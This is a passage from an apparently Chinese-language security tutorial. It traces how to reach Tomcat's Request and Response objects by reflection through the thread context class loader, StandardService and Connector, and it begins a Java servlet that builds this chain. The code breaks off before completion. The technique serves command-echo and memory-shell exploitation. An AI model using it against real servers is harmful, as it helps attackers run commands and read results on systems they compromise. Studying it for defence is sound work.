 这里可以看到，此时的线程类加载器是继承了`WebAppClassLoader`类的`ParallelWebAppClassLoader`类，并且看到了`StandardService`类，所以我们可以通过`Thread.currentThread().getContextClassLoader() `进而获取到上下文中的`StandardService`类。

最终调用链为：
```
WebappClassLoaderBase --> Thread.currentThread().getContextClassLoader() --> StandardService --> Connector --> AbstractProtocol$ConnectionHandler#process() --> this.global --> RequestInfo --> Request --> Response
```

### 构造利用链

我们开始按照上面跟的图和总结的利用链开始逐步构造
```java
package com.servlet.study;

import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.ProtocolHandler;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

/**
 * Created by dotast on 2022/11/21 16:50
 */
@WebServlet("/tomcatecho")
public class TomcatEcho extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try{
            // 获取StandardContext
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase)Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            // 获取ApplicationContext
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext)context.get(standardContext);
            // 获取StandardService
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService)service.get(applicationContext);
            // 获取Connectors
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
```